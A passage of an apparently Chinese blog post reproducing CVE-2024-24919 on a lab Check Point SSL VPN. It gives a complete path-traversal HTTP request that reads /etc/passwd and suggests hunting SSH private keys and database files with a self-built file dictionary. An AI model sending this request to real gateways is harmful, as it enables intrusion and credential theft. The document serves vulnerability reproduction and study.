 选择不适用AD：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/sXbicAlDr12q6UibILwhGTrLwsWaEMbYMjDZCXogUaySeCiblzRwmZ5HUOyHibibDiaCeBJXDHScETozqicicszeozn4fA/640?wx_fmt=png&from=appmsg "")  
  
密码随便填，我填的usertest：![](https://mmbiz.qpic.cn/sz_mmbiz_png/sXbicAlDr12q6UibILwhGTrLwsWaEMbYMjicFqAbZRoHLzclE1cDccpeJ7RDaicrH7GOEg3nc3hkZW7Sso6uRCn4BQ/640?wx_fmt=png&from=appmsg "")  
  
  
结束：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/sXbicAlDr12q6UibILwhGTrLwsWaEMbYMjeQIGaFpTdeptyLMEWDZeaDgYIsZl5Sh2eQC18b5SaH0ZytlqO0dKCA/640?wx_fmt=png&from=appmsg "")  
  
访问https://192.168.198.171/sslvpn：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/sXbicAlDr12q6UibILwhGTrLwsWaEMbYMj1ppmYta55zIumibprrOeG4F1YzqISLJw7vPaYWvclF7icOhDO63dScJw/640?wx_fmt=png&from=appmsg "")  
  
usertest登录没问题：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/sXbicAlDr12q6UibILwhGTrLwsWaEMbYMjjgygxIErwTfDwBcPlbNa1aJfE0lUAgiaHxMqqibxwdlVnsaW31FfBTQw/640?wx_fmt=png&from=appmsg "")  
# 二、漏洞复现与拓展  
```
POST /clients/MyCRL HTTP/1.1
Host: 192.168.198.171
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 39

aCSHELL/../../../../../../../etc/passwd

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/sXbicAlDr12q6UibILwhGTrLwsWaEMbYMj8ttXxNFngayf95KP7EjgLfKAqYQjgtOpp7rdIJDrC5hFDOmYJO6Z5g/640?wx_fmt=png&from=appmsg "")  
  
漏洞分析文章参考：  
> https://labs.watchtowr.com/check-point-wrong-check-point-cve-2024-24919/  
  
  
虚拟机的登录的话需要执行set expert-password来设置专家密码，然后再输入expert命令并输入密码即可登录控制台：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/sXbicAlDr12q6UibILwhGTrLwsWaEMbYMjlkndDYaWlpzrZeNVrOIQ6hG88icrSvZicGI4K5wNqbTP8aGAv7OhpbwA/640?wx_fmt=png&from=appmsg "")  
  
然后可以查找一些文件（如.NDB、.sqlite、/home/admin/.ssh/id_rsa等），可以自己寻找规律，编写自己的一份验证字典。  
  
  
